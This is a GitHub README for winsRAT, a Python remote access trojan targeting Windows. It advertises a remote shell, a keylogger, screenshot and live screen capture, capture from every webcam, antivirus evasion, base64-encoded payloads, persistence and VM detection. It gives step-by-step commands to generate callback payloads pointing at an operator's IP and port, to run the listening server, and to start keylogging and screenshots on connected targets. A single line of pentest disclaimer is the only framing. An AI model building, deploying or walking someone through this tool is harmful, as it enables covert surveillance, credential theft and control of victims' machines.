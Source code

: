 <h1 align="center"> 
    <img src="https://user-images.githubusercontent.com/29171692/89164677-00e3e480-d595-11ea-9cf1-f27ab1faf432.png" alt="winsRAT" /> <br>    
    winsRAT Under continuous development (Beta winsRAT)
</h1>
<p align="center">
    <a href="https://www.python.org/" target="_blank"><img src="https://img.shields.io/badge/Python-3-yellow.svg?logo=python" alt="Python: 3" /></a>
    <a href="https://github.com/ThemeHackers/winsRAT/releases" target="_blank"><img src="https://img.shields.io/badge/version-v2.1-blue.svg?logo=moo" alt="Release: v3.1" /></a>
    <a href="https://opensource.org/license/gpl-3-0" target="_blank"><img src="https://img.shields.io/badge/license-GPL-green.svg" alt="lisence" /></a>
</p>
<h4 align="center">Windows RAT</h4>

## Getting Started
### Description
winsRAT is written entirely in Python, developed from SillyRAT. winsRAT is a RAT specifically for Windows operating systems and has additional features. Server.py can generate two types of files: .exe files and source files.

### Features
This code shows the features of the tool.
```bash
def help_c_current(self):
        headers = (pull.BOLD + 'Command' + pull.END, pull.BOLD + 'Description' + pull.END)
        lister  = [
            ('help', 'Shows manual for commands'),
            ('sessions', 'Show all connected clients to the server'),
            ('connect', 'Connect to a Specific Client'),
            ('disconnect', 'Disconnect from Current Client'),
            ('clear', 'Clear Screen'),
            ('shell'  , 'Launch a New Terminal/Shell.'),
            ('keylogger', 'KeyLogger Module'),
            ('sysinfo', 'Dump System, Processor, CPU and Network Information'),
            ('screenshot', 'Take Screenshot on Target Machine and Save on Local'),
            ('screenshare' , 'Take Screenshot on Target Machine and Share in Real Time'),
            ('webcam', 'Capture Webcam Image and Save on Local'),
            ('antivm' , 'Check if the target is a VM to change the behavior of winsRAT.'),
            ('exit', 'Exit from winsRAT!')
            
            
        ]
```
- And others, stay tuned.

### High-level features

- Avoid AV
- The payload is base64 encoded.
- The webcam module is developed to capture images of multiple devices on the connected target machine. For example, if the target machine has 5 webcams, this module will capture images of all 5 devices immediately when using the webcam command on the server.
- Reconnecting to increase retention
- RAT behavior changes when encountering a VM target (under development)
- And others, stay tuned.

### Installation
The tool is tested on **Windows** with **Python 3.13.4**. 
Follow the steps for installation:
```
git clone https://github.com/ThemeHackers/winsRAT
cd winsRAT/
pip3 install -r requirements.txt
```

## Documentation
### Generating Payload
You can get the payload file in two ways: 
<ul>
    <li>Source File</li>
    <li>Compiled File</li>
</ul>

Source file

```bash
python3 server.py generate -a server_ip -p server_port -o "C:\Users\{...}\Downloads\{name_output}" -s -per
python3 server.py generate -a 192.168.1.100 -p 9001 -o "C:\Users\1com3456\Downloads\winsrat" -s -per
```
Compiled file

```bash
python3 server.py generate -a server_ip -p server_port -o "C:\Users\{...}\Downloads\{name_output}" -per
python3 server.py generate -a 192.168.1.100 -p 9001 -o  "C:\Users\1com3456\Downloads\winsrat" -per
```

Replace your IP Address and Port on above commands. 

### Running Server
The server must be executed on Windows. You can buy a VPS or Cloud Server for connections. For the record, the server doesn't store any session from last run. So, all the progress will lost once the server application gets terminated. Running your server:
```bash
python3 server.py bind -a 0.0.0.0 -p 9001
```

### Connections
All the connections will be listed under **sessions** command:
```
$ sessions
```

You can connect to you target session with **connect** command and launch one of available commands: 
```
$ connect ID
$ keylogger on
$ keylogger dump
$ screenshot
```

### Help
Get a list of available commands: 
```
$ help
```

Help on a Specific Command:
```
$ help COMMAND
```

### Credit
Twitter: <a href="//twitter.com/hash3liZer">@hash3liZer</a><br>
Discord: TheFlash2k#0407

### Support the improvement 
Instagram: <a href="https://www.instagram.com/_tthemzdl5678/">_tthemzdl5678</a><br>
Github: <a href="https://github.com/ThemeHackers/">ThemeHackers</a><br>
### Disclaimer
This tool is only for use by penetration testers or security testers. The author is not responsible for any illegal actions in your country.
